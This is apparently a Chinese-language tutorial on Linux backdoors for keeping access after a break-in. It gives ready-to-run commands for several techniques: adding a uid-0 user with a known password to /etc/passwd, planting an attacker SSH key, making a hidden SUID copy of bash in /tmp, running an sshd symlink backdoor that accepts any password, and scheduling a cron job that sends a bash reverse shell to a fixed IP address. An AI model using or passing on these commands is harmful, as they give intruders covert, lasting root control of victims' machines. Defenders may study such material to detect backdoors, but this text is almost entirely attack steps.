






<!--more--> 
# 0x01 写入 passwd 后门用户
> /etc/passwd各部分含义 用户名：密码：用户id：组id：身份描述：用户的家目录：用户登录后所使用的shell /etc/shadow各部分含义： 用户名：密码的md5加密值：自系统使用以来口令被修改的天数：口令的最小修改间隔：口令更改的周期：口 令失效的周期：口令失效以后账户会被锁定多少天：用户账号到期时间：保留字段尚未使用。
>

可以使用命令一键写入

`echo 'master:$1$shell$FWRDZvnn6nuR4MyAq/oF31:0:0::/root:/bin/bash' >> /etc/passwd`

密码是 `123456`

使用 openssl 生成密码

`openssl passwd -salt 'shell' -1 123456`

也可以使用下面这行命令创建 root 用户

```shell
useradd -p `openssl passwd -1 -salt 'salt' 123456` guest -o -u 0 -g root -G root -s /bin/bash -d /home/test
```

# 0x02 写SSH公私钥
```shell
ssh -keygan -t rsa //生成公钥
echo id_rsa.pub >> .ssh/authorized_keys 
//将id_rsa.pub内容放到目 标.ssh/authorized_keys里
```

在实战中也可以直接通过 `echo`写入

```shell
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDM4/GfeUAysfCteiXUsuSEO0fAkU7dJGoC+kUdLFIEEVwb9Sn2HqlMzH0sNfCjlldVkub297Nv7B7RPV6NGnmJDHp4QG/jJ0UakMtxhUO+1cfnl6kjJJ810Q/6viUZe5IAuQlIC96H7hrwqz/LNs4EMm6Cfs1TV2oz1dtg3E6YztlsErhZA6h/x4T1Oct9yVFZO/smlMHoP7LYrDyQQOG2LeqtpzFMMwLmeBQebMhQ0yhYJdg7lXizOiYStXsMbnLwdjsKgD3jbDdNSopEIVmoMn/rZ+W/tnYQcTgbNpgJwDQjIMxmW3H+qFGVWuBjo2LyYa9Bqamc/fXLHwEVQWDMenf8Y3PxUtRyy/g6PFGkMg+mOhrGN3WII1KOL5G8KEjmnnzlWO/C6GpJuTLGY8/d6LTKKOzqV/Saisd3LdSvqfLimhd9lsHjatKM92ID00DXjKQijVLPr1ErM7OYZqyZgMbqmlt78xGkCvKl1qt4dsGsnlnnOoORM8v+EOTav/E= en0th@en0thdeMacBook-Air.local' >> authorized_keys
```


# 0x03 SUID
当一个文件所属主的X标志位s(set uid简称suid)时，且所属主为root时，当执行该文件时，其实是以 root身份执行的。必要条件：


1. SUID权限仅对二进制程序有效。
2. 执行者对于该程序需要具有x的可执行权限。
3. 本权限仅在该程序执行的过程中有效。
4. 在执行过程中执行者将具有该程序拥有者的权限。



创建suid权限的文件：

```shell
cp /bin/bash /tmp/.woot 
chmod 4755 /tmp/.woot 
ls -al /.woot
```



相当于我们复制了一些新的bash到tmp目录下，然后可以在使用它的时候调用root的权限。 使用一般用户运行：

```shell
/tmp/.woot 
/tmp/.woot -p
```

bash2针对suid有一些保护措施，使用-p参数来获取一个root shell



要想查找到具有suid的权限的应用，可以使用如下命令:

```shell
find / -perm +4000 -ls 
find / -perm -u=s -type f 2>/dev/null
```




# 0x04 软连接
通过软连接建立一个ssh后门：

`ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=12345`

说明：建立软连接到/usr/local/su 文件，也可以在其他目录，su文件名字不能变，变了就无法登录。然后启动，并指定监听12345端口，登录的时候密码随 意即可，登陆如下：

`ssh root@xxx.xxx.xxx.xxx -p 12345`



要更改软连接su名字，需要用以下命令，rmi为你需要更改的名字:

```shell
echo '#%PAM-1.0' > /etc/pam.d/rmi
echo 'auth sufficient pam_rootok.so' >> /etc/pam.d/rmi
echo 'auth include system-auth' >> /etc/pam.d/rmi
echo 'account include system-auth' >> /etc/pam.d/rmi 
echo 'password include system-auth' >> /etc/pam.d/rmi 
echo 'session include system-auth' >> /etc/pam.d/rmi
```

之后再开启端口监听，用于登录

`ln -sf /usr/sbin/sshd /tmp/rmi;/tmp/rmi -oPort=12345`

如果没有写入 `pam.d`就会出现以下问题



**密码正确也无法登陆**


# <font style="color:rgb(51, 51, 51);">0x05 crontab反弹shell</font>
<font style="color:rgb(51, 51, 51);">crontab命令用于设置周期性被执行的指令。新建shell脚本，利用脚本进行反弹。</font>

1. <font style="color:rgb(51, 51, 51);">创建shell脚本，例如在/etc/evil.sh</font>

```shell
#!/bin/bash bash -i >& /dev/tcp/192.168.28.131/12345  0>&1 
chmod +sx /etc/evil.sh
```

2. <font style="color:rgb(51, 51, 51);">crontab -e 设置定时任务</font>

每一分钟执行一次 

`*/1 * * * * root /etc/evil.sh `

<font style="color:rgb(51, 51, 51);">重启crond服务，</font>`<font style="background-color:rgb(247, 247, 247);">service crond restart</font>`<font style="color:rgb(51, 51, 51);">，然后就可以用nc接收shell。</font>


